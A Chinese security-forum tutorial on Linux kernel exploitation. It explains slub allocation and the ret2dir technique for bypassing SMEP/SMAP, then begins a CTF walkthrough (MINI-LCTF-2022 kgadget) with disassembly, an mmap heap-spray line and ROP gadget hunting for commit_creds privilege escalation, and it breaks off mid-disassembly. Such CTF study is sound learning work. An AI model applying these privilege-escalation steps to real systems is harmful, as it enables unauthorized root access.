





# [调试逆向] Linux内核PWN-ret2dir(附赠基础slub算法!)

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1755363
- 抓取时间: 2026-11-01T21:57:21

## 0x00 基础知识们

之前写完操作系统，再来看`ret2dir`果然一片明朗，相比于之前对于映射机制方面的欠缺，这里明显更加得心应手

### 1. Linux内存管理

首先Linux的内存管理大致会分为`Buddy System`和`Slub`算法两种，这里由于我寻找的是一篇古早的分析，所以可能会有些许欠缺，但是目前学习该同样很早的漏洞利用手法已经足够，比较详细且时间较近的分析我推荐arttnba3师傅的个人博客

> 

[//arttnba3.cn/2021/11/28/OS-0X02-LINUX-KERNEL-MEMORY-5.11-PART-I/" target="_blank" rel="noopener noreferrer nofollow"](https://arttnba3.cn/2021/11/28/OS-0X02-LINUX-KERNEL-MEMORY-5.11-PART-I/:rel="nofollow noopener" href="https)

对于进程的内存管理，这里额外添加几点。

#### 0 关键数据结构

首先就是`mm_struct`和`vm_area_structs`,功能如下

`mm_struct`:描述一个进程的完整虚拟地址空间

`vm_area_structs`：描述虚拟地址空间的一个区间


640.png (51.47 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=MjU5ODk2NXwyN2IxNmVmMXwxNzkzNTcwMjM5fDE2ODA4NnwxNzU1MzYz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjU5ODk2NXwyN2IxNmVmMXwxNzkzNTcwMjM5fDE2ODA4NnwxNzU1MzYz&nothumb=yes)

2023-3-17 23:08 上传

每一个进程都有一个自己独有的`mm`，这样保证了各个进程互不干扰

`mm`的结构如下：

```
struct mm_struct
{
     struct vm_area_struct *mmap;    //指向虚拟区间(VMA)链表
     struct rb_root mm_rb;           //指向red_black树
     struct vm_area_struct *mmap_cache;    //找到最近的虚拟区间

     unsigned long(*get_unmapped_area)(struct file *filp,unsigned long addr,unsigned long len,unsigned long pgoof,unsigned long flags);

     void (*unmap_area)(struct mm_struct *mm,unsigned long addr);

     unsigned long mmap_base;

     unsigned long task_size;   //拥有该结构体的进程的虚拟地址空间的大小
     unsigned long cached_hole_size;
     unsigned long free_area_cache;

     pgd_t *pgd;  //指向页全局目录

     atomic_t mm_users;         //用户空间中有多少用户
     atomic_t mm_count;         //对"struct mm_struct"有多少引用

     int map_count;            //虚拟区间的个数
     struct rw_semaphore mmap_sem;
     spinlock_t page_table_lock;       //保护任务页表和mm->rss

     struct list_head mmlist;          //所有活动mm的链表
     mm_counter_t _file_rss;
     mm_counter_t _anon_rss;
     unsigned long hiwter_rss;
     unsigned long hiwater_vm;

     unsigned long total_vm,locked_vm,shared_vm，exec_vm;
     usingned long stack_vm,reserved_vm,def_flags,nr_ptes;

     unsingned long start_code,end_code,start_data,end_data;  //代码段的开始start_code ，结束end_code，数据段的开始start_data，结束end_data

     unsigned long start_brk,brk,start_stack;    //start_brk和brk记录有关堆的信息，start_brk是用户虚拟地址空间初始化，brk是当前堆的结束地址，start_stack是栈的起始地址

     unsigned long arg_start,arg_end,env_start,env_end;     //参数段的开始arg_start，结束arg_end，环境段的开始env_start，结束env_end
     unsigned long saved_auxv[AT_VECTOR_SIZE]；

     struct linux_binfmt *binfmt;

     cpumask_t cpu_vm_mask;
     mm_counter_t context;
     unsigned int faultstamp;
     unsigned int token_priority;
     unsigned int last_interval;

     unsigned long flags;
     struct core_state *core_state;
}
```

而我们分配的虚拟内存区域都由一个`vm_area_struct`的数据结构来管理，包括虚拟内存的开始和结束地址，内存的访问权限等等，如下图所示：


640 (1).png (107.91 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=MjU5ODk2Nnw2YjE1ZTQ3OHwxNzkzNTcwMjM5fDE2ODA4NnwxNzU1MzYz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjU5ODk2Nnw2YjE1ZTQ3OHwxNzkzNTcwMjM5fDE2ODA4NnwxNzU1MzYz&nothumb=yes)

2023-3-17 23:09 上传

下面是其数据结构：

```
struct vm_area_struct {

 /* The first cache line has the info for VMA tree walking. 

 第一个缓存行具有VMA树移动的信息*/

 unsigned long vm_start;  /* Our start address within vm_mm. */

 unsigned long vm_end;  /* The first byte after our end address within vm_mm. */

 /* linked list of VM areas per task, sorted by address

 每个任务的VM区域的链接列表，按地址排序*/

 struct vm_area_struct *vm_next, *vm_prev;

 struct rb_node vm_rb;

 /*

  此VMA左侧最大的可用内存间隙（以字节为单位）。 

  在此VMA和vma-> vm_prev之间，

  或者在VMA rbtree中我们下面的一个VMA与其->vm_prev之间。 

  这有助于get_unmapped_area找到合适大小的空闲区域。

  */

 unsigned long rb_subtree_gap;

 /* Second cache line starts here. 

 第二个缓存行从这里开始*/

 struct mm_struct *vm_mm; /* 我们所属的address space*/

 pgprot_t vm_page_prot;  /* 此VMA的访问权限 */

 unsigned long vm_flags;  /* Flags, see mm.h. */

 /*

  对于具有地址空间（address apace）和后备存储(backing store)的区域，

  链接到address_space->i_mmap间隔树，或者链接到address_space-> i_mmap_nonlinear列表中的vma。

  */

 union {

  struct {

   struct rb_node rb;

   unsigned long rb_subtree_last;

  } linear;

  struct list_head nonlinear;

 } shared;

 /*

  在其中一个文件页面的COW之后，文件的MAP_PRIVATE vma可以在i_mmap树和anon_vma列表中。

  MAP_SHARED vma只能位于i_mmap树中。 

  匿名MAP_PRIVATE，堆栈或brk vma（带有NULL文件）只能位于anon_vma列表中。

  */

 struct list_head anon_vma_chain; /* Serialized by mmap_sem & * page_table_lock

          由mmap_sem和* page_table_lock序列化*/

 struct anon_vma *anon_vma; /* Serialized by page_table_lock 由page_table_lock序列化*/

 /* 用于处理此结构体的函数指针 */

 const struct vm_operations_struct *vm_ops;

 /* 后备存储（backing store）的信息: */

 unsigned long vm_pgoff;  /* 以PAGE_SIZE为单位的偏移量（在vm_file中），*不是* PAGE_CACHE_SIZE*/

 struct file * vm_file;  /* 我们映射到文件（可以为NULL）*/

 void * vm_private_data;  /* 是vm_pte（共享内存） */

#ifndef CONFIG_MMU

 struct vm_region *vm_region; /* NOMMU映射区域 */

#endif

#ifdef CONFIG_NUMA

 struct mempolicy *vm_policy; /* 针对VMA的NUMA政策 */

#endif

};
```

#### 1. Buddy System（伙伴系统）

分配单元为页，且该系统的初衷就是为了缓解内存碎片化的问题，这里由于还没涉及到很多，所以仅仅知道他是分配页框的即可

#### 2. Slub算法

上面我们知道`Buddy System`是以页面为单位来分配的，因此当我们程序需要分配几十字节大小该怎么办呢？总不能不管什么都分配几个页框吧，因此就有了该`slub`算法的由来


这里介绍一下大致结构,首先就是一个统筹全局的数组`kmalloc_caches[12]`, 他是一个`kmem_cache`元素类型的数组，里面包含了12个`kmem_cache`类型，而这个`kmem_cache`里面包含着的就是一些待分配的内存块信息，这里我们`kmalloc_caches[12]`里面的不同的`kmem_cahce`自身所担当的职能是不同的，例如该数组中的一个`kmem_cache`类型只会包揽一种大小内存块的信息，因此我们的`Slub`算法总共是可以分配12种大小不同的内存块，分别是：

> 

2^3, 2^4, 2^5, 2^6, ... , 2^11, 96, 192字节

然后每个`kmem_cache`里面又保存着当前分配器的类型以及分配情况，其中比较重要的是`node`和`cpu_slab`,他俩的类型分别是`kmem_cache_node`和`kmem_cache_cpu`，这两个的作用也有所不同，首先我们了解一个知识点，那就是分配器会首先申请一整页的内存，然后该内存就是一个`slab`，当分配器获取该`slab`后再从中切割小块分给用户



然后剩下的信息我们到具体分配过程中了解

- 首先是最初创建`slub`的时候：

系统中不存在任何`slab`供我们使用，所以此时我们会向`buddy system`中申请一个页框来存放我们的初试`slab`,然后我们根据需求的块大小找到`kmalloc_cahces`中适配的分配器，将我们获取到的`slab`提供给他，注意这里我们会将该`slab`分配给`kmem_cache_cpu`下，且该字段下也只会指向一个`slab`这点得注意，下面就是过程图：


这里可以看到有一个页框是链接到`kmem_cache_cpu`下的`page`字段，该字段指向的就是分配`slab`的页框地址，然后我们也会将第一个块标记为已分配并且返还回去，然后剩下的空间我们会将其分割成一个个空闲块组成的链表，该链表的地址也会分配给`kmem_cache_cpu`下的`free_list`字段，然后如果我们该页框上面有空闲块的话，那么我们每次就将其标记为已分配然后`unlink`空闲链表返还分配地址就可以了

- 然后如果我们的`kmem_cache_cpu`分配满了并且`kmem_cache_node`中有包含空闲块的`slab`的时候，就会将其替换，然后把塞满的块接入到`kmem_cache_node`中的`full`双链表下


然后再切换之后返还一个空白块就可以了


- 如果我们此时`kmem_cache_cpu`指向的页也满了，然后`kmem_cache_node`也没有空闲的块，那么此时我们就会重新向`buddy system`申请一个新的页加入`kmem_cache_cpu`当中，然后将满的块移入`kmem_cache_node`，如下：


然后就是重新获取


- 上面讲完了分配的过程，下面我们来讲述释放的过程，这里我们的操作就主要是在`kmem_cache_node`中了，第一种情况那就是我们要释放的块在`kmem_cache_node`中的`full`双链表下：


此时我们直接将该块标记为空闲，然后将其加入`partial`双链表当中


- 而如果我们释放的块是在`kmem_cache_node`中的`partial`双链表当中或者说是在`kmem_cache_cpu`的`page`当中，我们直接释放然后加入空闲队列就行了，这里我直接按照上图的结果来展示释放后的状态


- 最后一种情况就是我们所释放的该块是该`slab`中最后一个块，那么此时我们释放该块后然后再归还整个`slab`给`buddy system`即可，这里就不画图辣。

### 2. ret2dir原理

`ret2dir`的存在是为了解决`SMAP`/`SMEP`保护模式的一种手法，该保护模式是阻止了内核程序执行用户程序，第一次被提出是在14年的一篇论文，这里页给出链接


`https://cs.brown.edu/~vpk/papers/ret2dir.sec14.pdf`

首先我们得知道一下Linux内存中的基本布局，链接如下，有兴趣的同学可以自行观看

`https://elixir.bootlin.com/linux/v5.0/source/Documentation/x86/x86_64/mm.txt`

我们可以看到有以下一个区域

```
========================================================================================================================
    Start addr    |   Offset   |     End addr     |  Size   | VM area description
========================================================================================================================
                  |            |                  |         |
 0000000000000000 |    0       | 00007fffffffffff |  128 TB | user-space virtual memory, different per mm
__________________|____________|__________________|_________|___________________________________________________________
                  |            |                  |         |
 0000800000000000 | +128    TB | ffff7fffffffffff | ~16M TB | ... huge, almost 64 bits wide hole of non-canonical
                  |            |                  |         |     virtual memory addresses up to the -128 TB
                  |            |                  |         |     starting offset of kernel mappings.
__________________|____________|__________________|_________|___________________________________________________________
                                                            |
                                                            | Kernel-space virtual memory, shared between all processes:
____________________________________________________________|___________________________________________________________
                  |            |                  |         |
 ffff800000000000 | -128    TB | ffff87ffffffffff |    8 TB | ... guard hole, also reserved for hypervisor
 ffff880000000000 | -120    TB | ffff887fffffffff |  0.5 TB | LDT remap for PTI
 ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | direct mapping of all physical memory (page_offset_base)
 ffffc88000000000 |  -55.5  TB | ffffc8ffffffffff |  0.5 TB | ... unused hole
 ffffc90000000000 |  -55    TB | ffffe8ffffffffff |   32 TB | vmalloc/ioremap space (vmalloc_base)
 ffffe90000000000 |  -23    TB | ffffe9ffffffffff |    1 TB | ... unused hole
 ffffea0000000000 |  -22    TB | ffffeaffffffffff |    1 TB | virtual memory map (vmemmap_base)
 ffffeb0000000000 |  -21    TB | ffffebffffffffff |    1 TB | ... unused hole
 ffffec0000000000 |  -20    TB | fffffbffffffffff |   16 TB | KASAN shadow memory
__________________|____________|__________________|_________|____________________________________________________________
                                                            |
                                                            | Identical layout to the 56-bit one from here on:
____________________________________________________________|____________________________________________________________
                  |            |                  |         |
 fffffc0000000000 |   -4    TB | fffffdffffffffff |    2 TB | ... unused hole
                  |            |                  |         | vaddr_end for KASLR
 fffffe0000000000 |   -2    TB | fffffe7fffffffff |  0.5 TB | cpu_entry_area mapping
 fffffe8000000000 |   -1.5  TB | fffffeffffffffff |  0.5 TB | ... unused hole
 ffffff0000000000 |   -1    TB | ffffff7fffffffff |  0.5 TB | %esp fixup stacks
 ffffff8000000000 | -512    GB | ffffffeeffffffff |  444 GB | ... unused hole
 ffffffef00000000 |  -68    GB | fffffffeffffffff |   64 GB | EFI region mapping space
 ffffffff00000000 |   -4    GB | ffffffff7fffffff |    2 GB | ... unused hole
 ffffffff80000000 |   -2    GB | ffffffff9fffffff |  512 MB | kernel text mapping, mapped to physical address 0
 ffffffff80000000 |-2048    MB |                  |         |
 ffffffffa0000000 |-1536    MB | fffffffffeffffff | 1520 MB | module mapping space
 ffffffffff000000 |  -16    MB |                  |         |
    FIXADDR_START | ~-11    MB | ffffffffff5fffff | ~0.5 MB | kernel-internal fixmap range, variable size and offset
 ffffffffff600000 |  -10    MB | ffffffffff600fff |    4 kB | legacy vsyscall ABI
 ffffffffffe00000 |   -2    MB | ffffffffffffffff |    2 MB | ... unused hole
__________________|____________|__________________|_________|___________________________________________________________
```

我们可以看到这一行

```
 ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | direct mapping of all physical memory (page_offset_base)
```

这里我们通过后面的内存段解释可以知道，他是映射了整个物理地址

而这里还有个点就是，再Linux内核当中，分配内存通常有以下两种方式：

- `vmalloc`，这里按照页为单位分配，需要虚拟地址连续，物理地址不需要连续
- `kmalloc`，这里按照字节为单位分配，虚拟地址和物理地址都需要连续

而我们通常采用`kmalloc`进行分配。

因此，此时的内存就存在以下的情况


在早期，我们的physmap是可执行的，所以我们可以在用户态编写好shellcode，然后在内核态劫持程序流到此就可以实现我们想得到的操作，但是目前的话我们的physmap一般都设置为不可执行，因此我们就无法通过shellcode的方式，但是我们仍然可以通过`ROP`来得到我们想要的结果

所以我们目前的利用手法就是如下：

- 在用户态使用`mmap`来大量映射进行堆喷，这里咱们申请的越多，我们在物理内存当中使用的地址就会越大，而后我们在内核态也能更快的得到我们所期待的重合段
- 然后我们在内核态利用漏洞获得堆上的地址，也就是`kmalloc`后获取到的`slab`的地址，然后计算出`physmap`的地址
- 利用`ROP`劫持执行流到`physmap`上面

通过上面的手法，我们就可以避开传统的内核访问用户但是被隔绝的情况，此时我们相当于是直接操作物理内存

## 0x01 MINI-LCTF-2022 Kgadget

这里我就奉行拿来主义，给出arttnba3师傅出的题，如有冒犯立马删（胆小

`https://arttnba3.cn/download/minil2022/pwn/kgadget.tar.xz`

拿到题第一步，首先咱们解压了看看

```
 tar -Jxf kgadget.tar.xzf
```

这个XZ文件有两种解压方式，还有一种就是先解压成tar，再解压tar

然后我们获取到文件系统后先来看看init脚本

```
 1 #!/bin/sh
 2 chown -R 0:0 /
 3 mount -t tmpfs tmpfs /tmp
 4 mount -t proc none /proc
 5 mount -t sysfs none /sys
 6 mount -t devtmpfs devtmpfs /dev
 7 
 8 echo 1 > /proc/sys/kernel/dmesg_restrict
 9 echo 1 > /proc/sys/kernel/kptr_restrict
10 
11 chown 0:0 /flag
12 chmod 400 /flag
13 chmod 777 /tmp
14 
15 insmod kgadget.ko
16 chmod 777 /dev/kgadget
17 
18 cat /root/banner
19 echo -e "\nBoot took $(cut -d' ' -f1 /proc/uptime) seconds\n"
20 setsid cttyhack setuidgid 1000 sh
21 poweroff -d 0 -f
```

### 1. IDA逆向

可以看到其中`insmod`了一个`kgadget.ko`，这儿也是咱们的漏洞模块,首先我们使用`checksec`来查看一下该模块


然后我们拖入IDA进行静态分析，首先就是`ioctl`函数



可以看到这里咱们其实编译会出点问题，所以我们到汇编这里查看


```asm
.text.unlikely:000000000000011C 48 8B 1A                      mov     rbx, [param]                    ; 我们传递的函数param
.text.unlikely:000000000000011F                               kgadget_ptr = rbx                       ; void (*)(void)
.text.unlikely:000000000000011F 48 C7 C7 70 03 00 00          mov     __file, offset unk_370
.text.unlikely:0000000000000126 48 89 DE                      mov     cmd, kgadget_ptr
.text.unlikely:0000000000000129 E8 2A 0F 00 00                call    printk                          ; PIC mode
.text.unlikely:0000000000000129
.text.unlikely:000000000000012E 48 C7 C7 A0 03 00 00          mov     rdi, offset unk_3A0
.text.unlikely:0000000000000135 E8 1E 0F 00 00                call    printk                          ; PIC mode
.text.unlikely:0000000000000135
.text.unlikely:000000000000013A 48 89 65 E8                   mov     [rbp-18h], rsp
.text.unlikely:000000000000013E 48 8B 45 E8                   mov     rax, [rbp-18h]
.text.unlikely:0000000000000142 48 C7 C7 F8 03 00 00          mov     rdi, offset byte_3F8
.text.unlikely:0000000000000149 48 05 00 10 00 00             add     rax, 1000h
.text.unlikely:000000000000014F 48 25 00 F0 FF FF             and     rax, 0FFFFFFFFFFFFF000h         ; rax此时为内核栈的栈底，也就是最高处
.text.unlikely:0000000000000155 48 8D 90 58 FF FF FF          lea     rdx, [rax-0A8h]                 ; 此时将距离栈底0xA8的位置传入rdx,该rdx所在的地址将会作为一个中断栈，保存中断的寄存器值
.text.unlikely:000000000000015C 48 89 55 E8                   mov     [rbp-18h], rdx
.text.unlikely:0000000000000160                               regs = rdx                              ; pt_regs *
.text.unlikely:0000000000000160 48 BA 61 72 74 74 6E 62 61 33 mov     regs, 3361626E74747261h         ; 无效值
.text.unlikely:000000000000016A 48 89 90 58 FF FF FF          mov     [rax-0A8h], rdx                 ; r15
.text.unlikely:0000000000000171 48 89 90 60 FF FF FF          mov     [rax-0A0h], rdx                 ; r14
.text.unlikely:0000000000000178 48 89 90 68 FF FF FF          mov     [rax-98h], rdx                  ; r13
.text.unlikely:000000000000017F 48 89 90 70 FF FF FF          mov     [rax-90h], rdx                  ; r12
.text.unlikely:0000000000000186 48 89 90 78 FF FF FF          mov     [rax-88h], rdx                  ; rbp
.text.unlikely:000000000000018D 48 89 50 80                   mov     [rax-80h], rdx                  ; rbx
.text.unlikely:0000000000000191 48 89 50 90                   mov     [rax-70h], rdx                  ; r10
.text.unlikely:0000000000000195 E8 BE 0E 00 00                call    printk                          ; PIC mode
.text.unlikely:0000000000000195
.text.unlikely:000000000000019A E8 B1 0E 00 00                call    __x86_indirect_thunk_rbx        ; PIC mode
```

可以看到一个 `pt_regs` 结构体，我们在这里查看一下这个结构体的含义：

```c
struct pt_regs {

/*
 * C ABI says these regs are callee-preserved. They aren't saved on kernel entry
 * unless syscall needs a complete, fully filled "struct pt_regs".
 */

        unsigned long r15;
        unsigned long r14;
        unsigned long r13;
        unsigned long r12;
        unsigned long rbp;
        unsigned long rbx;

/* These regs are callee-clobbered. Always saved on kernel entry. */
        unsigned long r11;
        unsigned long r10;
        unsigned long r9;
        unsigned long r8;
        unsigned long rax;
        unsigned long rcx;
        unsigned long rdx;
        unsigned long rsi;
        unsigned long rdi;

/*
 * On syscall entry, this is syscall#. On CPU exception, this is error code.
 * On hw interrupt, it's IRQ number:
 */
        unsigned long orig_rax;

/* Return frame for iretq */
        unsigned long rip;
        unsigned long cs;
        unsigned long eflags;
        unsigned long rsp;
        unsigned long ss;

/* top of stack page */
};
```

由于这里我曾经写过操作系统，所以这里的结构体一眼可以看出是中断发生时所保存的寄存器结构，它是被压在内核栈当中的，然后我们的 `ioctl` 函数实际上是将 `r15~r12`、`rbp`、`rbx` 以及 `r10` 置为了无效值，仅仅保留了几个关键寄存器值。

然后最后一条语句：

```asm
.text.unlikely:0000000000000195
.text.unlikely:000000000000019A E8 B1 0E 00 00                call    __x86_indirect_thunk_rbx        ; PIC mode
```

这里是编译器的优化，实际上等同于 `call rbx`，而 `rbx` 中我们保存的是我们刚刚传递的函数。

我们分析完 `ioctl`，我们来看看 `qemu` 的启动脚本：

```sh
#!/bin/sh
qemu-system-x86_64 \
  -m 256M \
  -cpu kvm64,+smep,+smap \
  -smp cores=2,threads=2 \
  -kernel bzImage \
  -initrd ./rootfs.cpio \
  -nographic \
  -monitor /dev/null \
  -snapshot \
  -append "console=ttyS0 nokaslr pti=on quiet oops=panic panic=1" \
  -no-reboot
```

## 2. 前期准备

我们可以看到这里是开启了 `smep` 和 `smap`，阻隔了内核访问用户数据或代码，还有就是 `nokaslr`，说明我们可以通过 `vmlinux` 来获取关键函数的地址。

首先我们目前是只拥有 `bzImage`，因此我们通过下面脚本来获取其中的 `vmlinux`，然后来获取关键函数地址。

- 这里获取 `vmlinux` 有两种方法，其中之一就是下面的 `extract-vmlinux` 脚本，不过有的地方会有不同程度的失败，要么是无法真正解压，要么是解压出来没有符号表。

```sh
#!/bin/sh
# SPDX-License-Identifier: GPL-2.0-only
# ----------------------------------------------------------------------
# extract-vmlinux - Extract uncompressed vmlinux from a kernel image
#
# Inspired from extract-ikconfig
# (c) 2009,2010 Dick Streefland 
#
# (c) 2011      Corentin Chary 
#
# ----------------------------------------------------------------------

check_vmlinux()
{
    # Use readelf to check if it's a valid ELF
    # TODO: find a better to way to check that it's really vmlinux
    #       and not just an elf
    readelf -h $1 > /dev/null 2>&1 || return 1

    cat $1
    exit 0
}

try_decompress()
{
    # The obscure use of the "tr" filter is to work around older versions of
    # "grep" that report the byte offset of the line instead of the pattern.

    # Try to find the header ($1) and decompress from here
    for pos in `tr "$1\n$2" "\n$2="  $tmp 2> /dev/null
        check_vmlinux $tmp
    done
}

# Check invocation:
me=${0##*/}
img=$1
if  [ $# -ne 1 -o ! -s "$img" ]
then
    echo "Usage: $me " >&2
    exit 2
fi

# Prepare temp files:
tmp=$(mktemp /tmp/vmlinux-XXX)
trap "rm -f $tmp" 0

# That didn't work, so retry after decompression.
try_decompress '\037\213\010' xy    gunzip
try_decompress '\3757zXZ\000' abcde unxz
try_decompress 'BZh'          xy    bunzip2
try_decompress '\135\0\0\0'   xxx   unlzma
try_decompress '\211\114\132' xy    'lzop -d'
try_decompress '\002!L\030'   xxx   'lz4 -d'
try_decompress '(\265/\375'   xxx   unzstd

# Finally check for uncompressed images or objects:
check_vmlinux $img

# Bail out:
echo "$me: Cannot find vmlinux." >&2
```

另外一种方法就是使用比较完善的 `vmlinux-to-elf`，具体 GitHub 地址如下：

> [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf)

下面我们获取两个函数的地址：

```text
ffffffff810c92e0 :
ffffffff810c9540
```

大家应该还记得咱们提权的方法吧，那就是想办法执行 `commit_creds(prepare_kernel_cred(NULL))`，将内核权限赋予新进程。

回顾我们上面的利用手法，我们需要在用户程序申请大量的内存来增加我们在内核态找到对应物理内存的几率，因此我们在 C 用户程序中使用 `mmap` 函数来进行匿名内存映射：

```c
map_spray[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
```

现在我们还需要找到一些 gadget 来进行我们的利用。

如同之前内核 ROP，我们同样需要找到 `swapgs`、`iretq` 等语句，但是在本题当中并未寻找到满足的 gadget，但是我们将 `vmlinux` 拖入 IDA 进行分析可以获知出题人在内核中提供了一个函数名叫 `swapgs_restoer_regs_and_return_to_usermode`，如下：


```asm
.text:FFFFFFFF81C00FB0                               public swapgs_restore_regs_and_return_to_usermode
.text:FFFFFFFF81C00FB0                               swapgs_restore_regs_and_return_to_usermode proc near
.text:FFFFFFFF81C00FB0                                                                       ; CODE XREF: ret_from_fork+15↑j
.text:FFFFFFFF81C00FB0                                                                       ; entry_SYSCALL_64_after_hwframe+54↑j
.text:FFFFFFFF81C00FB0                                                                       ; entry_SYSCALL_64_after_hwframe+65↑j
.text:FFFFFFFF81C00FB0                                                                       ; entry_SYSCALL_64_after_hwframe+74↑j
.text:FFFFFFFF81C00FB0                                                                       ; entry_SYSCALL_64_after_hwframe+87↑j
.text:FFFFFFFF81C00FB0                                                                       ; entry_SYSCALL_64_after_hwframe+94↑j
.text:FFFFFFFF81C00FB0                                                                       ; entry_SYSCALL_64_after_hwframe+A3↑j
.text:FFFFFFFF81C00FB0                                                                       ; error_return+E↓j
.text:FFFFFFFF81C00FB0                                                                       ; asm_exc_nmi+93↓j
.text:FFFFFFFF81C00FB0                                                                       ; entry_SYSENTER_compat_after_hwframe+4F↓j
.text:FFFFFFFF81C00FB0                                                                       ; entry_SYSCALL_compat_after_hwframe+47↓j
.text:FFFFFFFF81C00FB0                                                                       ; entry_INT80_compat+85↓j
.text:FFFFFFFF81C00FB0                                                                       ; DATA XREF: print_graph_irq+D↑o
.text:FFFFFFFF81C00FB0                                                                       ; print_graph_entry+59↑o
.text:FFFFFFFF81C00FB0 90                            nop                                     ; Alternative name is '__irqentry_text_end'
.text:FFFFFFFF81C00FB1 90                            nop
.text:FFFFFFFF81C00FB2 90                            nop
.text:FFFFFFFF81C00FB3 90                            nop
.text:FFFFFFFF81C00FB4 90                            nop
.text:FFFFFFFF81C00FB5 41 5F                         pop     r15
.text:FFFFFFFF81C00FB7 41 5E                         pop     r14
.text:FFFFFFFF81C00FB9 41 5D                         pop     r13
.text:FFFFFFFF81C00FBB 41 5C                         pop     r12
.text:FFFFFFFF81C00FBD 5D                            pop     rbp
.text:FFFFFFFF81C00FBE 5B                            pop     rbx
.text:FFFFFFFF81C00FBF 41 5B                         pop     r11
